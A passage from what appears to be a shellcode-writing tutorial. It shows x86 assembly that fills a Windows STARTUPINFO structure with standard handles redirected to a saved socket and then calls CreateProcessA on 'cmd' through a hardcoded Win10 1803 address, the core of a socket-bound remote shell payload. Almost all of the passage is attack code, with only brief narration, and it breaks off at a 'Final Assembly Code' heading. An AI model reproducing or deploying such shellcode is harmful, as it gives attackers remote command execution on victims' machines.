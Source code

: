 Here we go!

```asm
push esi		; hStdError - saved socket
push esi		; hStdOutput - saved socket
push esi		; hStdInput -saved socket
push edx		; pReserved2 - NULL	
push edx		; cbReserved2 -NULL
xor eax, eax
inc eax
rol eax, 8			
push eax		; dwFlags - STARTF_USESTDHANDLES 0x00000100
push edx		; dwFillAttribute - NULL
push edx		; dwYCountChars - NULL
push edx		; dwXCountChars - NULL
push edx		; dwYSize - NULL
push edx		; dwXSize - NULL
push edx		; dwY - NULL
push edx		; dwX - NULL
push edx		; pTitle - NULL
push edx		; pDesktop - NULL
push edx		; pReserved - NULL
xor eax, eax
add al, 44
push eax		; cb - size of structure
mov eax, esp		; pStartupInfo
```



Now we are finally ready to call CreateProcessA. 

```asm
push ebx		; pProcessInfo
push eax		; pStartupInfo
push edx		; CurrentDirectory - NULL
push edx		; pEnvironment - NULL
push edx		; CreationFlags - 0
xor eax, eax
inc eax
push eax		; InheritHandles -TRUE - 1
push edx		; pThreadAttributes -NULL
push edx		; pProcessAttributes - NULL

push ecx		; pCommandLine - pointer to "cmd"
push edx		; ApplicationName - NULL
	
mov ebx, 0x74f36630	; CreateProcessA - Win10 1803
call ebx

```


### Final Assembly Code
